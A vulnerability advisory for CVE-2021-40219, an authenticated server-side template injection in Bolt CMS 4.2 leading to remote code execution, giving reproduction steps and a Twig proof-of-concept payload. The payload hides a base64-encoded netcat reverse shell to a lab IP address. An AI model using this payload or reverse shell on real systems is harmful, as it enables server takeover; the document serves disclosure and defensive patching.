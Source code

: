 
<h1>CVE-2021-40219</h1>
Bolt CMS SSTI to Remote Code Execution


Reported by S1lv3r

Description :

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php on line 25 that is about
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 

# TemplateController.php line 25:
```return $this->render($templates, []);```

1- The authenticated user edit theme by going to file management -> view/edit themes
2- Inject our PoC payload that will run system command
3- Go to Edit Page then create new page and choose our malicious template
4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC

Version :
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

Attack Type:
Remote

Impact :
Remote Command Execution


PoC : 

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
